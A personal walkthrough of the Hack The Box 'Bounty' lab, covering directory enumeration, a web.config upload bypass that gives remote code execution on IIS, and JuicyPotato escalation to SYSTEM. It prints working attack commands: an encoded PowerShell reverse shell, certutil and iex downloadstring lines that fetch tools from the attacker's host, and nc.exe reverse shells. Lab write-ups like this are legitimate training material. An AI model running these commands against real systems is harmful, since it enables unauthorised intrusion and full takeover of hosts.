

## Reconnaissance

### nmap 


### Web Service 


### Gobuster 

> 1st times

```
gobuster dit -u http://10.129.230.174 -w /usr/share/wordlists/dirb/commmon.txt -o web.out
```


> 2nd times

```
gobuster dit -u http://10.129.230.174 -w /usr/share/wordlists/dirb/commmon.txt -x txt,asp,aspx -o web6.out
```


### Upload File Page 

> Accessing transfer.aspx 


> Uploadfiles page 


## Exploit 

> Start to try to upload some file 

1. Image file - success (PNG / JPG / JPEG)
2. ASPX - Failed


> For aspx in hacktricks, I tried PHP and config 


1. PHP -- Failed


2. config 


> Only image file and config file works 
> Research about web.config 


> I use this sample

- [web.config payload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Configuration%20IIS%20web.config/web.config)


> I can check this file work in /uploadfiels


> The RCE works, I can execute command


> And I can create reverse shell with the following payload 

```
powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA3AC4AMQA0ADUAIgAsADEAMwAzADgAKQA7ACQAcwB0AHIAZQBhAG0AIAA9ACAAJABjAGwAaQBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAZQBbAF0AXQAkAGIAeQB0AGUAcwAgAD0AIAAwAC4ALgA2ADUANQAzADUAfAAlAHsAMAB9ADsAdwBoAGkAbABlACgAKAAkAGkAIAA9ACAAJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAGIAeQB0AGUAcwAsACAAMAAsACAAJABiAHkAdABlAHMALgBMAGUAbgBnAHQAaAApACkAIAAtAG4AZQAgADAAKQB7ADsAJABkAGEAdABhACAAPQAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AVAB5AHAAZQBOAGEAbQBlACAAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4AQQBTAEMASQBJAEUAbgBjAG8AZABpAG4AZwApAC4ARwBlAHQAUwB0AHIAaQBuAGcAKAAkAGIAeQB0AGUAcwAsADAALAAgACQAaQApADsAJABzAGUAbgBkAGIAYQBjAGsAIAA9ACAAKABpAGUAeAAgACQAZABhAHQAYQAgADIAPgAmADEAIAB8ACAATwB1AHQALQBTAHQAcgBpAG4AZwAgACkAOwAkAHMAZQBuAGQAYgBhAGMAawAyACAAPQAgACQAcwBlAG4AZABiAGEAYwBrACAAKwAgACIAUABTACAAIgAgACsAIAAoAHAAdwBkACkALgBQAGEAdABoACAAKwAgACIAPgAgACIAOwAkAHMAZQBuAGQAYgB5AHQAZQAgAD0AIAAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrADIAKQA7ACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHMAZQBuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA
```


> Got reverse shell


> Check user flag, but failed


> Check Hidden file 

```
dir -Force
```


> Find user flag


## Privilege Escalation 

> check whoami permission
> SeImpersonatePrivilege is Enabled
> I will use JuicyPotato / JuicyPotatoNG to get system admin permission


> Here, I upload those following 3 files

1. JuicyPotatNG
2. JuicyPotato
3. nc.exe

> I tried to use the following 2 method to upload, but all failed
> I'm not sure the reason.

1. iwr


> Then I tried to use certutil
> Upload juicypotatoNG

```
certutil -urlcache -split -f http://10.10.17.145:443/JuicyPotatoNG.exe jp.exe
```


> Upload nc.exe

```
certutil -urlcache -split -f http://10.10.17.145:443/nc.exe nc.exe
```


> Upload juicypotato

```
certutil -urlcache -split -f http://10.10.17.145:443/JuicyPotato.exe jp2.exe
```


> After success to upload those 3 files
> I tried JuicyPotatoNG first (The most one I used before), but it failed.
> Still... I'm not sure the reason


> Then I change to try juicypotato

```
.\jp2.exe -l 1339 -p "C:\Windows\System32\cmd.exe" -a "/c C:\Windows\temp\nc.exe -e cmd 10.10.17.145 1339" -t *
```



> Get sustem admin permission 


> Got root flag


### Another way to use JuicyPotato 

> Besides nc.exe, I also tried another way to get system admin
> I created the batch file first, it will usr powershell to get another ps file (Invoke-PowerShellTcp.ps1)

```
powershell -c iex(new-object net.webclient).downloadstring('http://10.10.17.145/power2.ps1')
```


> In Invoke-PowerShellTcp.ps1
> Adding this in bottom of file

```
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.17.145 -Port 1338
```

> Upload both of them

```
certutil -urlcache -split -f http://10.10.17.145/power2.ps1 power2.ps1
```


```
(new-object net.webclient).downloadfile('http://10.10.17.145/rev.bat', 'C:\Windows\temp\rev.bat')
```


> Execute batch file like follow

```
.\jp2.exe -p "C:\Windows\temp\rev.bat" -t * -l 1338
```


> Then I also can get reverse shell

## Reference 

### WriteUp

- [Bounty Writeup w/o Metasploit](https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/windows-boxes/bounty-writeup-w-o-metasploit)
- [HackTheBox - Bounty Writeup](https://hackmd.io/@Mecanico/BkKAsWVuc)
- [Writeup: HackTheBox Bounty - Without Metasploit (OSCP Prep)](https://dev.to/0xhuey/writeup-hackthebox-bounty-without-metasploit-oscp-prep-1bga)

### IIS / Upload Vulnerability

- [IIS - Internet Information Services](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/iis-internet-information-services)
- [(GITHUB)Payload in web config](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Configuration%20IIS%20web.config/web.config)
- [Upload a web.config File for Fun & Profit](https://soroush.me/blog/2014/07/upload-a-web-config-file-for-fun-profit/)
- [File Upload Restriction Bypass Checklist](https://steflan-security.com/file-upload-restriction-bypass-cheat-sheet/)
- [(HackTricks)File Upload](https://book.hacktricks.xyz/pentesting-web/file-upload)
### Windows Hidden File 
- [19.3. Finding Hidden Files](https://www.oreilly.com/library/view/professional-windows-powershell/9780471946939/9780471946939_finding_hidden_files.html)
- [How to show hidden files on Windows 10](https://pureinfotech.com/show-hidden-files-folders-windows-10/)

###### tags: `HackTheBox`